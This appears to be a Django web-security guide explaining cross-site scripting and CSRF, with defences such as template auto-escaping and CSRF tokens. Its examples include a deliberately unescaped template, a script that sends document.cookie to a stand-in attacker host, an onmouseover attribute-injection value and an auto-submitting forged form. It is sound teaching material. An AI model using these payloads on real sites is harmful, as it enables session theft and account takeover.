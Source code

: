 - We will be mostly talking about web security in this doc and specifically how can django be strong armed against all kind of attacks. 
- So it is preferable that the reader first goes through this [doc](https://docs.djangoproject.com/en/3.0/topics/security/).



## Cross site scripting

- __How does it work?__

  - An attacker somehow manages to inject a JavaScript into the web-page which is considered as a source code by browser and if user click on such element the JavaScript injected by attacker can perform dangerous actions with it.

- __What can attacker do if he able to pull off the injecting part?__

  - Malicious JavaScript has access to all the objects that the rest of the web page has access to. This includes access to the user’s cookies. Cookies are often used to store session tokens. If an attacker can obtain a user’s session cookie, they can impersonate that user, perform actions on behalf of the user, and gain access to the user’s sensitive data.
  - JavaScript can use the `XMLHttpRequest` object to send HTTP requests with arbitrary content to arbitrary destinations.
  - JavaScript in modern browsers can use HTML-5 API. For example, it can gain access to the user’s Geo-location, webcam, microphone, and even specific files from the user’s file system. Most of these APIs require user opt-in, but the attacker can use social engineering to go around that limitation.

- __Here is an example of how this attack works:__

  - Let's say we have a code in our web-page which looks like this:

    

    ```python
    webpage_response = f"""<html>
    <head>
    <title>comments/my_post</title>
    </head>
    <body>
    <h1>My Post latest comments</h1>
    <span>{{ database.latest_comments }}</span>
    </body>
    </html>"""
    return render(webpage_response)
    ```

    

  - Now if some attacker adds a comment to post which is:

    ```javascript
    <script>
    window.location="http://attacker.domain/?cookie=" + document.cookie
    </script>
    ```

    

  - When this web-page will be rendered by any of the website user this script is executed and the information that is stored as cookies will be sent to the attackers website.

  - Keep in mind that lot site keep client secrets in cookies.

  - More info can be found [here](https://owasp.org/www-community/xss-filter-evasion-cheatsheet).

- __How to save ourselves?__

  - Django templates [escape specific characters](https://docs.djangoproject.com/en/3.0/ref/templates/language/#automatic-html-escaping) which are particularly dangerous to HTML. While this protects users from most malicious input, it is not entirely foolproof. For example, it will not protect the following:

    ```css
    <style class={{ var }}>...</style>
    ```

  - If `var` is set to `'class1 onmouseover=javascript:func()'`, this can result in unauthorized JavaScript execution, depending on how the browser renders imperfect HTML. (Quoting the attribute value would fix this case.)

  - It is also important to be particularly careful when using `is_safe` with custom template tags, the [`safe`](https://docs.djangoproject.com/en/3.0/ref/templates/builtins/#std:templatefilter-safe) template tag, [`mark_safe`](https://docs.djangoproject.com/en/3.0/ref/utils/#module-django.utils.safestring), and when autoescape is turned off.

  - Most of the time the protection towards this kind of attacks is escaping the dangerous characters or syntax when anything in web-page is dynamic.





# CSRF Attack

- __How does it work?__

  - The attacker causes the victim user to carry out an action unintentionally.

  - For example, suppose an application contains a function that lets the user change the email address on their account. When a user performs this action, they make an HTTP request like the following:

    ```http
    POST /email/change HTTP/1.1
    Host: vulnerable-website.com
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 30
    Cookie: session=yvthwsztyeQkAPzeQ5gHgTvlyxHfsAfE
    
    email=wiener@normal-user.com
    ```

  - Now attacker will create an HTML page somewhat like this:

    ```html
    <html>
      <body>
        <form action="https://vulnerable-website.com/email/change" method="POST">
          <input type="hidden" name="email" value="pwned@evil-user.net" />
        </form>
        <script>
          document.forms[0].submit();
        </script>
      </body>
    </html>
    ```

  - The attacker's page will trigger an HTTP request to the vulnerable web site.

  - If the user is logged in to the vulnerable web site, their browser will automatically include their session cookie in the request (assuming [SameSite cookies](https://portswigger.net/web-security/csrf/samesite-cookies) are not being used).

  - The vulnerable web site will process the request in the normal way, treat it as having been made by the victim user, and change their email address.

- __What can attacker do?__

  - In a successful CSRF attack, the attacker causes the victim user to carry out an action unintentionally. For example, this might be to change the email address on their account, to change their password, or to make a funds transfer. Depending on the nature of the action, the attacker might be able to gain full control over the user's account. If the compromised user has a privileged role within the application, then the attacker might be able to take full control of all the application's data and functionality.

- __How to save ourselves?__

  - The most robust way to defend against CSRF attacks is to include a [CSRF token](https://portswigger.net/web-security/csrf/tokens) within relevant requests.
  - The token should be:
    - Unpredictable with high entropy, as for session tokens in general.
    - Tied to the user's session.
    - Strictly validated in __every case__ before the relevant action is executed.



